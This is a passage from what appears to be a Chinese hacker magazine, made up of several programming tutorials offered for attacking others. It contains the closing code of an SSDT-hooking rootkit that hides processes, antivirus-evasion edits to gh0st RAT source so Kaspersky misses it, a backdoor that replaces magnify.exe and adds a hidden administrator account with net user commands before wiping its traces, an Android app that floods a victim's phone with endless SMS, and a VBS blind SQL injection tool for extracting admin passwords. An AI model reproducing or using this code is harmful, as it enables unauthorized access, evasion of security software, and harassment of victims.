在最后，当隐藏进程的驱动程序要卸载的时候，必须将 SSDT 改回来，否则因为 SSDT 目前指向本驱动程序的一个函数，当本驱动程序卸载后，SSDT 中的表项将指向无效内存，然后当有对 `ZwQuerySystemInformation()` 函数的调用的时候，会发生什么就不好说了，多半系统会崩溃吧。驱动程序的 `OnUnload` 例程也就一句话，代码如下：

```c
void OnUnload(IN PDRIVER_OBJECT DriverObject){
    KeServiceDescriptorTable.ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation + 1))] = OrgZwQuerySystemInformation;
    return;
}
```

以上就是运行于内核态的驱动程序的全部源代码。

在文末做个小小的总结吧。本文中，我们通过大量的篇幅讨论了如何通过挂钩 SSDT 隐藏进程的方法，并以一个简单的程序作为示例。读者可以将以上示例程序做一些简单的修改，从而能够随心所欲地隐藏自己想要隐藏的进程。若对文中的解释一时无法理解透彻，建议读几次代码，因为代码本身就是一份很好的说明。最后，希望本文对读者有所帮助。

## VB编写WEBSHELL生成器

妖蓝

在大家进行入侵检测的过程中，一定会用到很多 WEBSHELL 和一些脚本文件，但是纯文本的文件很容易被修改，而且容易搞混，在网吧环境中也很是不便，所以我们可以做一个生成器把常用的脚本收集起来，既能防杀又能起到收集整理的作用。我们要用到 VB6.0 标准版（完整版也可以，精简版不行），然后要整理好自己常用的 WEB-SHELL。

打开 VB6.0，新建标准 EXE 工程，点击菜单栏中的“外接程序”，在弹出的对话框中选择“VB6 资源编辑器”，在“加载行为”标签中选择“加载/卸载”，然后点击确定，如图1。我们会在工具栏发现一个类似魔方的图标，一会要用到。


图1

创建用户界面，我们要先拖一个单选框，然后复制并粘贴它；接着会弹出一个对话框，询问是否创建控件数组，我们选择“是”。要注意的是，控件的顺序不能乱放，必须一个接一个，否则下面生成的木马不能一一对应。控件的名称就是生成木马的文件名，所以要带上后缀；你如果看着不爽也可以调整单选框长度把后缀隐藏起来。我们还可以加上底图和免责声明，我做好的界面如图2。


图2

接下来根据单选框的名称添加 WEB-SHELL 资源，打开 VB 资源编辑器，就是那个类似魔方的图标。在弹出的窗口中点击第12个图标，添加自定义资源，按照单选框的名称依次添加 WEBSHELL，如图3。添加完毕后，为了方便以后扩展功能，最好把资源文件保存一下，点击 VB 资源编辑器里的第3个图标就可以把已整理好的 WEBSHELL 资源保存成文件，下次编辑的时候就不用再添加 WEBSHELL 了。


图3

一切准备就绪，接下来添加生成 WEB-SHELL 的代码，虽说代码是一个程序的灵魂，但是本文的代码其实很简单，双击任意一个单选框，填入如下代码：

```vb
Private Sub Option1_Click(Index As Integer)
    Dim a() As Byte
    a = LoadResData(Index + 101, "custom")
    Open App.Path & "\" & Option1(Index).Caption For Binary As #1
    Put #1, , a
    Close
End Sub
```

我简单解释一下代码。第一行的“Index”是从控件数组获取的参数……第三行把参数与 101 相加，对应资源；`LoadResData()` 用于读取指定资源。第四行以二进制方式打开磁盘文件，`App.Path` 获取当前目录，拼接标题后得到保存路径。第五行把变量 `a` 中的数据写到文件，第六行关闭文件。

就这样，简单的几行代码就实现了目的。另外，因为把 WEBSHELL 的资源换成 EXE 文件资源，同样可以生成可用的 EXE 文件，所以可以把常用命令行工具整合并做成 GUI（可视）版本，这样 hacking 效率会提升。

- 使用 VB 编写，易于压缩，体积小巧。
- 添加新的 WEBSHELL 不需要改动代码。
- VB 语言大众化，扩展功能比较方便。

（本文所涉及的工程文件本期光盘已收录）

## 混淆免杀之卡巴

上回和大家说了下源码免杀的基础以及金山的免杀，今天说下卡巴的免杀。OK，let's go。特征码定位过程略过，直接看 dll 特征码位置：在 `svchost` 文件中搜索 `MyDecode` 可找到三处，第一处代码如下。

```cpp
char* MyDecode(char *str)
{
    int i, len;
    char *data = NULL;
    len = base64_decode(str, &data);
    for (i = 0; i < len; i++) {
        data[i] -= 0x86;
        data[i] ^= 0x19;
    }
    return data;
}
```

将函数套起来。将代码改为如下代码：

```cpp
char* MyDecode(char *str)
{
    int i, len;
    char *data = NULL;
    len = base64_decode(str, &data);
    try {
        if (len > 0) throw 999;
    } catch (...) {
        for (i = 0; i < len; i++) {
            data[i] -= 0x86;
            data[i] ^= 0x19;
        }
    }
    return data;
}
```

对于函数免杀可以通过异常法，就是通过 `try catch` 结构。

```cpp
return -1;
```

第二处是 `InstallModule` 字串，在 `scvryer` 文件下搜索 `InstallModule`，会搜到六处，只有三处是特征的位置（`"InstallModule"`），如下所示：

```cpp
WriteRegEx(HKEY_LOCAL_MACHINE, strSubKey, "InstallModule", REG_SZ, strSelf, lstrlen(strSelf), 0);
ReadRegEx(HKEY_LOCAL_MACHINE, strSubKey, "InstallModule", REG_SZ, strInstallModule, NULL, lstrlen(strInstallModule), 0);
WriteRegEx(HKEY_LOCAL_MACHINE, strSubKey, "InstallModule", REG_SZ, NULL, NULL, 3);
```

可以将“InstallModule”中的 `InstallModule` 改为任意字串，我这里改为了 `hackerxfiles`。

第三处是杀 `ReleaseMutex` 和 `CloseHandle` 函数。在 `svchost.cpp` 文件下，位置如下：

```cpp
ReleaseMutex(hInstallMutex);
CloseHandle(hInstallMutex);
}

BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
```

对于杀函数，还是直接用异常来处理下，有的叉子可能会想在前面加花指令，你可以尝试下，是不免杀的，它是杀在这个函数上的，所以说有时候定位到某个位置上加花指令不免杀的时候就用 `try catch` 结构。改为如下所示：

```cpp
try
{
    if (hInstallMutex != NULL) throw 666;
}
catch (...)
{
    ReleaseMutex(hInstallMutex);
    CloseHandle(hInstallMutex);
}
```

代码里的 `throw` 后面的数字随便写。

下面说下 dat 文件的特征码位置及其修改方法。只有一处特征。其实是和 dll 第一处特征码一样。只不过搜索位置要改到 install 文件下，也是三处和 dll 一样的代码，改法一样，这里就不贴代码了。最后在 `install.cpp` 的 `memfind` 函数开头加入句花指令：

```cpp
asm{
    nop
    nop
    nop
}
```

OK，至此所有的特征码就修改完了，打开卡巴检测一下，已经免杀了（如图1），测试也能上线（如图2）。


（文章中所涉及到的 `gh0st3.6_src` 已经收录在光盘中）

## 另类后门程设浅述杂盘与验证

蔡歌

最近一个朋友向我求助，他刚上班，公司还没给配电脑，只能蹭同事的电脑用用，不过电脑都有密码。我原本是想教他直接把密码给破了的，不过他说同事的密码会经常改。好吧，就做个后门吧。

API 是系统提供给用户用于进入操作系统核心，进行高级编程的途径。通过在 Visual Basic 应用程序中声明外部过程就能够访问 Windows API（以及其它的外部 DLLs）。在声明了过程之后，调用它的方法与调用 Visual Basic 自己的过程相同。

### 一、后门构思

原本是想弄个粘滞键后门，想想还是算了，粘滞键后门太多人用了，还是弄点不常用的吧。我想了半天，决定在辅助工具管理器上面下手（可按 Win + U 打开），如图1。但是不能直接从它身上下手，辅助工具管理器里面有两个小工具，一个是放大镜（`magnify.exe`），一个是屏幕键盘（`osk.exe`）。我的构思是这样的，将放大镜改名为“magnify1.exe”，再把我们的后门复制到 `System32` 目录下，更名为“magnify.exe”，当我们的后门打开时，检测 NumLock 灯是否亮起，再检测 CapsLock 灯是否亮起，最后检测 ScrollLock 灯是否亮起，如果是的话，添加一个用户，没有的话则删除特定的用户，详细的流程如图2。

我们这里要用到的 API 函数就是 `GetKeyState` 函数，这个 API 函数的作用是查询某个键的当前状态，若我们查询的键处于按下状态则会返回 1，不处于按下状态则返回 0。

在 VB 里调用 API 函数需要声明，声明很简单，只要在程序的声明处输入声明的代码就可以了，代码可以在网上找到。这里提供一本电子书，里面收录有常用的 API 函数，而且提供 VB 的声明代码，图3就是电子书对 `GetKeyState` 函数的解释。


### 二、编程实现

打开 VB6，新建“标准 EXE 工程”，在工程资源管理器中移除“Form1”，再添加一个模块。我们添加模块之后，在弹出的代码编辑框输入 `GetKeyState` 函数的声明代码。

编程语言选择 VB，IDE 是 VB6.0。我们做这个后门需要用上 API 函数，什么是 API 函数呢？API 说到底就是一系列的底层函数，是系统提供给用户用于进入操作系统核心，进行高级编程的途径。

好了，`GetKeyState` 函数的声明工作我们已经完成了，接下来就是后门的代码编写，主要代码如下：

```vb
Sub Main()
    If GetKeyState(20) = 1 Then
        '20是CapsLock键的ASCII值
        If GetKeyState(144) = 1 Then
            '144是NumLock键的ASCII值
            If GetKeyState(145) = 1 Then
                '145是ScrollLock键的ASCII值
                Shell ("net user king king add")
                '如果三个灯都亮，则执行添加账户的命令
                Shell ("net localgroup administrators king add")
                '执行将之前加的账户提升至管理员。
            ElseIf GetKeyState(145) = 0 Then
                '如果ScrollLock灯没有亮起，则执行下面的命令
                Shell ("net user king del")
                '把我们添加的用户删除。
                Shell ("cmd.exe /c rd /s /q c:\docume~1\king")
                '毁尸灭迹，把用户文件夹也给删除。
            End If
        ElseIf GetKeyState(144) = 0 Then
            '如果NumLock灯没有亮起，则执行下面的命令
            Shell ("magnify1.exe")
            '运行正常的放大镜。
        End If
    ElseIf GetKeyState(20) = 0 Then
        Shell ("magnify1.exe")
    End If
End Sub
```

`net user king king add` 的作用是添加一个账户名和密码都为 `king` 的账户，大家只需把 `king` 改成自己想要的就行了，还有后面的命令也要改哦。除此之外，Windows NT 系统有 WFP 机制，即保护系统文件。这个机制很好突破，只需将我们的后门在复制到 `System32` 目录的同时，也复制一份到 `System32` 下的 `dllcache` 目录中，还有一点 `dllcache` 目录默认是隐藏的，需要展开我的电脑菜单“工具”→“文件夹选项”，切换到“查看”选项卡，在隐藏文件和文件夹那选择“显示所有文件和文件夹”。

好了，文章到这里就结束了。大家有什么问题可以到 X 档案论坛联系我。

（本文所涉及的软件：API For VB、后门及其源代码已收录在本期光盘中）

## Android手机短信狂发器

现在 Android 的开发越来越火，Android 平台应用程序也越来越多，例如：“玩游戏、上网、听音乐……”现在的 Android 在安全方面也很好，有些人利用手机的恶意软件攻击他人的 Android 手机，但是他们那样的做法也不是太怎么好，接下来就让我给大家介绍一下怎么才能让别人很反感地看到你的短信。

首先，我们需要搭建一个 Android 手机开发环境，这个环境搭建在网上也有，我所搭建环境工具如下：

- JAVA 的 IDE 开发工具——Eclipse
- Java 开发包——Java SE Development Kit（JDK）JDK 6
- Android 开发包——Android SDK
- Android 开发插件（ADT-plugin）

这些工具在网上也有很透彻的步骤，在这里我就不给大家一个介绍了。

搭建好环境以后，我们开始来写 Android 手机短信狂发器这个程序了。首先我们需要建立一个 Android 项目，那么，这个 Android 项目怎么创建呢？首先，我们点击菜单栏里的“File”→“New”→“Android project”，我们在“New Android project”菜单中的“project name”里填写上新建工程的名字，然后在“Build Target”里面选一个 Android SDK 的版本，我建议选择得越新越好，然后在“properties”栏里“Application name”框中填写一个应用程序名，然后在“Package name”框中填写一个包名（包名的格式一般是“作者名.程序名”），然后在“Create Activity”框中填写一个 Activity 的名，在“Min SDK Version”的框中写上你所选的最小 SDK 版本，你所选的版本要与 API 的版本相对应，最后点击“Finish”即可完成 Android 项目的创建（如图1）。

建立好 Android 项目以后，我们来写一个“图形布局”，因为有了这个图形布局运行界面我们发短信就方便了一点，只要有了这个运行界面我们就可以利用这个界面无限发送短信了，点击……


图1

## 黑客编程

res→layout→main.xml，打开以后我们把下面的这段代码写在上面。

```xml
<TextView
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:text="@string/qingshurushoujihaoma"
/>
```

这段代码写的是“请输入手机号码”这几个字。

```xml
<EditText
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:id="@+id/qingshurushoujihaoma"
/>
```

这段代码写的是“请输入手机号码”的框。

```xml
<TextView
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:text="@string/qingshuruduanxinneirong"
/>
```

这段代码的意思是“请输入短信内容”这几个字。

```xml
<EditText
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:id="@+id/qingshuruduanxinneirong"
/>
```

这段代码的意思是“请输入短信内容”的框。

```xml
<TextView
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:text="@string/fasonganniu"
/>
```

这段代码的意思是“发送按钮”这几个字。

```xml
<Button
    android:layout_width="wrap_content"
    android:layout_height="wrap_content"
    android:text="@string/fasonganniu"
    android:id="@+id/fasonganniu"
/>
```

这段代码的意思是发送短信按钮的键了（如图2）。如果不写上面的那几句代码，那么图2中的文字就显示不出来了。

填写好以上代码以后，接下来我们在res→values→strings.xml这里填写以下代码。

```xml
<string name="qingshurushoujihaoma">请输入手机号码</string>
<string name="qingshuruduanxinneirong">请输入短信内容</string>
<string name="fasonganniu">发送按钮</string>
```

完成上面的操作，接下来我们就在src→faduanxin→duanxin.java里面填写以下代码：

```java
mobileText = (EditText)this.findViewById(R.id.qingshurushoujihaoma); // 取手机号的值
contentText = (EditText)this.findViewById(R.id.qingshuruduanxinneirong); // 取短信的内容
Button button = (Button)this.findViewById(R.id.fasonganniu); // 定义一个按钮
button.setOnClickListener(new View.OnClickListener(){
    public void onClick(View v){
        String mobile = mobileText.getText().toString();
        String content = contentText.getText().toString();
        @SuppressWarnings("deprecation")
        SmsManager smsManager = SmsManager.getDefault();
        while(true){
            smsManager.sendTextMessage(mobile, null, content, null, null);
        }
    }
});
```

这段代码是通过this.findViewById函数得到了R.id里的qingshurushoujihaoma对应的手机号的值赋值给了mobileText，通过this.findViewById函数得到了R.id里的qingshuruduanxinneirong对应的短信内容最后赋值给了contentText，通过this.findViewById函数得到了R.id里的fasonganniu发送按钮最后赋值给了Button button，添加一个点击按钮，当点击了这个按钮他就执行以下的操作……


以上的代码写完了，接下来就让我们一起试验一下，看看这个程序好不好用，是否能达到给予对方发送无限条短信的功能！“5554”装上短信狂发器给“5556”发送短信（如图3）。

通过mobileText.getText函数转换成字符串的格式并赋值给了String mobile这个变量，通过contentText.getText函数转换成字符串的格式并赋值给了String content这个变量，通过SmsManager.getDefault函数并赋值给了SmsManager smsManager，意思就是说发送短信的内容，“while(){}”这个是一个句式……

## 对抗星号密码查看器

常笑鬼

星号密码相信是大家再熟悉不过的东西了。无论是上QQ、登录论坛或邮箱，都会看到这种技术的成果。不过，很多时候我们用星号密码查看器就可以看到其中的内容，这个时候你会怎么想？

但是上网找了很久，居然发现都没人讨论过这个问题。我还问了qw22321，当时他也不知道。于是直到我的第一个思想萌发……

### 一、起源

这件事还要追溯到09年的国庆，当时我们刚考完试，因为成绩不好被老师骂了一顿……于是就想着这个东西是怎么做出来的。后来慢慢地开始接触VB，思索着先用VB做一个防星号查看的密码框……


### 二、最初的模型

我的第一个想法如下（过程图如图1，其实一部分想法是正确的）。我们可以监视文本框的行为，来判断用户对密码的操作，就是输入和删除。然后判断最终密码……

textbox1最末段字符，加到pwd中，再将textbox1末端的字符变为“*”。我们定义的pwdLen来记录每次改变后的长度，当textbox1的长度比pwdLen长时，说明用户增加字符，否则就是删除。

代码如下：

```vb
Private pwdLen As Integer  '定义原长
Private Pwd As String      '密码

Private Sub Form_Load()
    pwdLen = 0  '密码初始长度
End Sub

Private Sub Text1_Change()
    If Len(Text1.Text) > pwdLen Then '长度增加时
        If pwdLen = 0 Then
            Pwd = Text1.Text
            Text1.Text = "*"
            pwdLen = Len(Text1.Text)
        Else
            Pwd = Pwd & Right(Text1.Text, 1)
            Text1.Text = Left(Text1.Text, Len(Text1.Text) - 1) & "*"
            pwdLen = Len(Text1.Text)
        End If
    End If

    If Len(Text1.Text) < pwdLen Then '长度减少时
        If pwdLen = 1 Then
            Pwd = ""
            pwdLen = Len(Text1.Text)
        Else
            Pwd = Left(Pwd, Len(Pwd) - 1)
            pwdLen = Len(Text1.Text)
        End If
    End If
End Sub
```

在这里可以发现，我两次都对pwdLen先进行了判断。第一次在增加字符时判断，是因为当pwdLen=0时，Len(Text1.Text)=1，Left(Text1.Text, 0)就会出错。而同样在删除字符的时候，要确保不会出现Left(Pwd, 0)的情况出现。

好了，我们运行代码，输入文本，结果出现了这样的情况（如图2）。其实，我们看代码是的确没有错的，只是代码使textbox1发生了变化。大家仔细看看，我们在使用Text="*"的时候，实际上是对Text1.Text进行一个赋值，这个时候textbox1的Change事件就又被激活了一次，然后再次执行我们的代码。所以就会出现上面的情况。


### 三、过程修改

好吧，我承认，上面的代码我是没法改的了。所以其实我当时停了挺长一段时间没有动它，后来才想到其实我们可以把Change事件改成用KeyPress事件来判断的。当textbox控件的KeyPress事件触发，也就是当你按下键盘的时候，就会执行中间的代码。我们如果利用KeyPress事件来代替的话，就能排除了重复执行Change过程代码的干扰。

现在看一下我重新写的代码：

```vb
Private PassWord As String
Const pwdChar = "*"

Private Sub Command1_Click()
    MsgBox PassWord
End Sub

Private Sub Text1_Click()
    SelPos = Text1.SelStart
End Sub

Private Sub Text1_DblClick()
    Text1.SelLength = 0
End Sub

Private Sub Text1_KeyDown(KeyCode As Integer, Shift As Integer)
    Dim s As String
    s = Text1.Text
    i = Text1.SelStart

    If KeyCode = 46 Then
        If Len(PassWord) >= 1 And i <= Len(PassWord) Then
            PassWord = ""
            Text1.Text = ""
        End If

        If PassWord <> "" And i <> Len(PassWord) And Len(PassWord) > 1 Then
            PassWord = Mid(PassWord, 1, i) & Mid(PassWord, i + 2, Len(PassWord) - i - 1)
            s = Mid(s, 1, Len(PassWord))
            Text1.Text = s
            Text1.SelStart = i
        End If
    End If
End Sub

Private Sub Text1_KeyPress(KeyAscii As Integer)
    Dim s, c As String
    s = Text1.Text
    i = Text1.SelStart
    c = Chr(KeyAscii)

    If KeyAscii > 31 And KeyAscii < 126 Then
        If PassWord <> "" Then
            If i = 0 Then
                PassWord = c & PassWord
            Else
                PassWord = Mid(PassWord, 1, i) & c & Mid(PassWord, i + 1, Len(PassWord) - i)
            End If
        End If

        s = s & pwdChar
        Text1 = s
        Text1.SelStart = i + 1
    End If

    If KeyAscii = 8 Then
        If i <> 0 Then
            PassWord = Mid(PassWord, 1, i - 1) & Mid(PassWord, i + 1, Len(PassWord) - i)
            s = Mid(s, 1, Len(s) - 1)
            Text1.Text = s
            Text1.SelStart = i - 1
        End If
    End If
End Sub
```

我们先试试效果。看起来不是很好（如图3）。仔细看了看，发现代码是没有问题的，只是忘记设置控件的属性了。我们将TEXTBOX的Locked属性设为True。因为我们在输入密码时就对密码框进行了一个操作，代码又进行了一次操作，所以会出现这样的情况，当我们设置好后就OK了。再来测试一下，效果就（如图4）一样了。之后我们再将TEXTBOX的PasswordChar属性改成“*”就完成了。


图3


图4

### 四、最后的完善

这个问题是我纠结了很久的问题，也是对于一个菜鸟来说很麻烦的问题。表面上看起来，这个程序是没有问题了的，而实际上我们想想，我们在输入密码的时候是怎么输入的。相信很多人还是习惯性的顺序输入，虽然说输入顺序的问题我在代码中已经看似解决了，然后也发现了最大的问题。就是如果用户点到空选什么的怎么办？大家用代码测试也可以知道是什么问题，那么如何来解决这个问题呢，这是个值得思考的问题。

起先我想了一种办法，先弄一个Timer控件，间隔设到最小，然后代码中写上Text1.SelLength=0。这样子虽然表面上可以解决问题，但是如果操作快一些的话一样会出现错误。后来正巧在网上弄到一份高仿QQ2009的源码，下来看了一下，发现里面的密码框已经实现了这个技术。这个工程里面的密码框是个控件，本来想直接用的，不过看也不可能，代码N行，加上控件模块之间联系紧密，就放弃了这个想法。但是没办法啊，必须要把这个东西做出来吧。就看着代码一点一点地删掉没用的，删到其中一段的时候IDE就崩溃了。

代码如下：

```vb
Public Function WindowProc(ByVal hWnd As Long, ByVal uMsg As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
    Select Case uMsg  ' 判断消息类型
        Case WM_RBUTTONUP
            Exit Function
        Case WM_MOUSEMOVE
            If wParam = 1 Then Exit Function
        Case WM_KEYDOWN
            If wParam <> 20 Then
                If wParam = 37 Then
                    If SelPos > 0 Then SelPos = SelPos - 1: txtMain.SelStart = SelPos
                    Exit Function
                End If
                If wParam = 39 Then
                    If SelPos < PwdLen Then SelPos = SelPos + 1: txtMain.SelStart = SelPos
                    Exit Function
                End If
            End If
    End Select
    WindowProc = CallWindowProc(OldProc, ...hWnd, uMsg, wParam, lParam)
End Function
```

大家都知道这只是个函数而已嘛，肯定是哪个地方调用了，所以才会出错。起先我也是这么想的，然后就在剩下的代码中寻找调用这个函数的代码，遗憾的是没找到。不得已之下只好找到这个工程的原作者vIstaswx，原来运用的是子类化。子类化允许你接管被子类化的窗口，使你对它有绝对的控制权。不过这的确是一个函数啊，没有调用那它怎么会出错呢？其实他在控件当中还用了一段汇编代码，因为他告诉我VB对于类的实现和模块不同（如图5），汇编中的代码就是调用函数所用的代码。所以到后来这个东西我没办法改，让他帮了个小忙。


增加了以下代码：

```vb
Private Sub Form_Load()
    TextBoxOldWndProc = SetWindowLong(Text1.hWnd, GWL_WNDPROC, AddressOf MyTextBoxWindowProc)
End Sub

Private Sub Form_Unload(Cancel As Integer)
    If TextBoxOldWndProc Then SetWindowLong Text1.hWnd, GWL_WNDPROC, TextBoxOldWndProc
End Sub
```

再结合上面的代码，大致意思就是当TEXTBOX接收到消息的时候就拦截，我们自己对它进行操作，在这里主要是操作TEXTBOX的SelStart对象。然后到这里代码就算全部结束了，测试也非常顺利。

### 五、后记

其实这个工程我在初三的时候就想着做了，那时刚接触VB不久，所以很多基础的东西都不懂，做起来就麻烦了许多。但是在这个过程中想法不断地改变（主要是因为存……）

在《错误》里，觉得还是收获了蛮多的东西。还有一个很幼稚的想法在这里就不说出来了，有兴趣的可以单独聊。子类化技术是我在接触这个工程后才去关注的，现在也是在学习当中。在我看来也就是对 Windows 消息的操作吧。在这里特别感谢 vistaswx 兄。希望大家也能在学习中不断发现问题，然后想办法解决。

> （文章中所涉及到的源码已收录在光盘中）

## 菜鸟进阶之注入工具自己写

搞站的时候一直都用别人做的工具，心里很不爽啊，虽然把一些工具的版权改了，但还是自欺欺人，所以本人自己用 VBS 写了一个注入工具，介绍给大家交流使用，希望让大家黑站更 HAPPY，让菜鸟离高手更进一步。本文适合有一定 VB 基础的朋友。

```vb
stop=num
end if
loop
injectfun=begin
end function
```

### 一、工具原理

工具通过一个自定义的 checkpage 函数检测页面是否正确，checkpage 中的 PostData 函数使用 XMLHTTP 对象用于打开指定页面，PostData 中的 bytes2BSTR 函数转换二进制为字符串。自定义函数 injectfun 使用折半查找法（看不懂代码的查百度吧）猜解某一个变量的临界点。工具是半自动的，注入语句要自己写，把要猜测的数据用转义字符代替，默认是“yao”和“lan”。比如猜测字段用 `"order by yao"`，猜测 MD5 或管理员账号用 `"and(select top 1 asc(mid(password,lan,1)) from admin)>yao"`。这里“lan”在外循环，“yao”在内循环，两个函数如下：

```vb
Function checkpage(PostUrl,word)
strData = PostData(PostUrl)  '得到页面文
if InStr(strData,word) > 0 then  '判断是否正确
    checkpage = True
Else
    checkpage = False
End If
End Function
```

```vb
function injectfun(url)
begin=1          '猜解上限
stop=126         '猜解下限
do while begin<>stop
num=(begin+stop)\2   '得到中间值
wscript.echo num      '输出
viewurl=url
viewurl=replace(viewurl,yao,num)  '转义关键字
if checkpage(viewurl,keyword) then  '判断页面并半折猜解
    begin=num+1
else
    ...
end if
loop
```

### 二、全局功能选择

工具有三个功能模块，分别是单变量猜解、双变量猜解、字典猜解。为避免重复启动工具，使用了大的死循环和内循环，使用 inputbox 读入数据。全局代码如下（我用冒号代替了回车）：

```vb
do
injurl=inputbox("注入点",,"默认注入点链接")
keyword=inputbox("关键字",,"默认关键字")
method=inputbox("猜解模式",,2)

do while method<>0  '模式为0直接退出小循环

    select case method

    case 1:onevariable()   '单变量

    case 2:morevariable()  '双变量

    case 3:tablecreak()    '字典猜解

    end select

    method=inputbox("猜解模式",,2)

loop
```


图1

### 三、单变量猜解

这个函数可以猜测字段数、管理员密码长度，准确地说它应该叫过程，因为它没有返回值。需要注意的是，因为使用折半查找法，构造语句时比较符号一定要用大于号“>”，否则不能正常使用。代码很简单，如下：

```vb
sub onevariable()

wscript.echo "单变量猜解"

sql=inputbox("注入语句",," and (select len(password) from admin)>yao")

result=injectfun(injurl&sql)

'得到结果

wscript.echo "+" & string(40,"-") & "+"
wscript.echo "猜解完成:"&result
wscript.echo "+" & string(40,"-") & "+"

end sub
```

inputbox() 的三个参数分别是：信息内容、对话框标题、默认内容。string() 函数用来取得某相同字符的字符串，第二个参数里只有第一个字符有效。wscript.echo 语句用来在命令行中输出数据，会自动换行，wscript.stdout.write 语句不会自动换行，运行效果（如图1）。

### 四、双变量猜解

双变量猜解说白了就是另外加了个循环，可以理解成加强版的单变量猜解。

代码如下：

```vb
sub morevariable()

wscript.echo "双变量猜解"

result=""

dim sql

sql=inputbox("注入语句",,"默认注入语句")

n1=inputbox("外循环循环起始",,1)
n2=inputbox("外循环循环结束",,16)
now1=pow()

for i=n1 to n2
    wscript.echo "正猜测第"&i&"位"
    data=replace(sql,lan,i)
    '转义关键字
    result=result&chr(injectfun(injurl&data))
    '猜解合并字符
    wscript.echo "结果"
    wscript.echo "空一行"
next

with wscript.stdout
    .echo "+"&string(40,"-")&"+"
    .echo "用时:"&now1
    .echo ""&now
    .echo "猜解完成:"&result
    .echo "+"&string(40,"-")&"+"
end with

end sub
```

双变量猜解需要手动输入循环起始和终止值，可以从单变量猜解得到，循环前会调用 now() 函数记录时间。代码用到了计次循环来循环调用 injectfun() 来猜解数据，输出时使用了 with 结构简化代码。运行效果（如图2），啊D连猜长度加猜数据用了15秒，咱的用了16秒。


### 五、字典猜解

字典猜解主要是猜解表名、字段名和列名的。用 TXT 文本存放，一行一个，调用 FSO 逐行读取，同样转义字符串检测页面。

代码如下：

```vb
sub tablecneak()
    wscript.echo "字典猜解"
    sql=inputbox("注入语句", "默认注入语句")
    result=""
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Set TextFile = FSO.OpenTextFile("table.txt",1)
    now1=now()
    Do Until TextFile.AtEndOfStream
        tablestr = TextFile.ReadLine
        wscript.echo tablestr
        data=replace(sql,"abc",tablestr)
        if checkpage(injurl&data,keyword) then
            result=result & tablestr & vbcrlf
        end if
    Loop
```

```vb
' 存储结果
wscript.echo string(20,"-")&"发现："&tablestr
...
end if
Loop

with wscript
    .echo "输出"
    .echo "用时："&now1
    .echo ""&now
    .echo "猜解完成："&vbcrlf&result
    .echo "-"&string(40,"-")&""
end with
TextFile.Close  '关闭文件
set fso=nothing   '将FSO置空
end sub
```

先读取注入语句，再创建 FSO，接着打开文件，OpenTextFile 的第二个参数是打开模式，参数如下：

- 1. 打开一个只读文件，不能对此文件进行写操作。
- 2. 打开一个用于写操作的文件。如果和此文件同名的文件已存在，则覆盖以前内容。
- 8. 打开一个文件并写到文件的尾部。我们常见的 QQ 木马收信脚本使用的就是 8 这个模式。

判断循环的条件是是否到文件尾，接着逐行读入、转义关键字、注入、存储结果、输出，运行效果（如图3）。


### 六、结尾的话

VBS 开头定义了 COOKIE，但是后面构造数据包那里我给注释了，需要用就自己改吧。VBS 里还有一个 URLEncoding() 函数，自己研究吧！工具里写了一个注入点，全部默认能看到效果。

工具的优点是很灵活，只要会写语句就能用，字符型、搜索型都没问题，速度也很快，缺点是要求小黑会用基本的注入语句（小黑要加油啦）。希望大家自己完善一下，打造成独门利器。

笔者也是初学编程，文章多有疏漏，还请多多指教！

（文章中所涉及到的程序已收录在光盘中）

## C语言和微软之小小恶作剧

寒冬飞雪

现在对 C 语言感兴趣的人不在少数，但是真正学下去的却寥寥无几，究其原因就是从 C 程序到 Windows 程序这一过渡实在太过困难且漫长。希望本文能给各位学 C 的同志带来一点乐趣，以解学 C 的寂寞和无聊。本文将带大家认识几个 Windows API（API：应用程序编程接口）函数，并且用它们来搞点恶作剧。（注：本文的代码在 VC6 下通过，其他环境需建立正确的工程，大家自己尝试吧）

大家都用过 QQ 的窗口抖动功能吧，其实质就是把一个窗口快速移动了位置而已。我们可以用 `MoveWindow(HWND,int,int,int,BOOL)` 这个 API 函数来实现窗口的移动。这个函数需要 6 个参数，分别是被操作的窗口的句柄，移动后窗口横纵坐标，移动后窗口的宽度和高度，以及一个窗口重绘选项参数。

所谓窗口句柄可以理解为一个窗口（不只是窗口，还可以是一个按钮、菜单等）的唯一标识符，系统通过这个标识符可以唯一确定一个对象。好了，废话到此结束，下面上代码：

```c
#include <stdio.h>
#include <windows.h> // 看头文件的名字就知道这个的作用了

int main(int argc, char *argv[])
{
    RECT rect;                 // RECT是一个矩形结构体，相当于保存了一个矩形的四条边坐标
    HWND hwnd = NULL, oldhwnd = NULL; // 两个窗口句柄
    int x, y, width, height;   // 用来保存项目横纵坐标和宽度、高度的变量
    int i;                     // 这是一个循环变量

    for(i=0;i<50;i++)          // 循环50次，也可以是死循环，不过还是厚道点好
    {
        ...
    }
}
```

```c
{
    hwnd = GetForegroundWindow();

    // 今天的又一个API函数，获取活动窗口的句柄
    if(hwnd != oldhwnd)
    {
        // 判断窗口句柄是不是改变了
        GetWindowRect(hwnd,&rect);   // 第三个API函数，获取指定窗口的位置

        x = rect.left;               // 拿到了窗口的横坐标，则左上角的x
        y = rect.top;                // 拿到了纵坐标
        width = rect.right - x;      // 窗口右边的坐标减去左边的就是窗口的宽度
        height = rect.bottom - y;    // 同理，下面的减去上面的，即高度

        oldhwnd = hwnd;              // 把刚刚获取的窗口句柄保存起来
    }

    MoveWindow(hwnd, x-10, y, width, height, TRUE);   // 向左移动了10像素
    Sleep(5);                  // 暂停5毫秒
    MoveWindow(hwnd, x-10, y-10, width, height, TRUE);
    Sleep(5);
    MoveWindow(hwnd, x, y-10, width, height, TRUE);
    Sleep(5);
    MoveWindow(hwnd, x, y, width, height, TRUE);
}
```

```c
Sleep(5);
...
return 0;
}
```

注释很详细了，我就不多解释了，效果就是鼠标点哪个窗口哪个窗口就开始抖动。

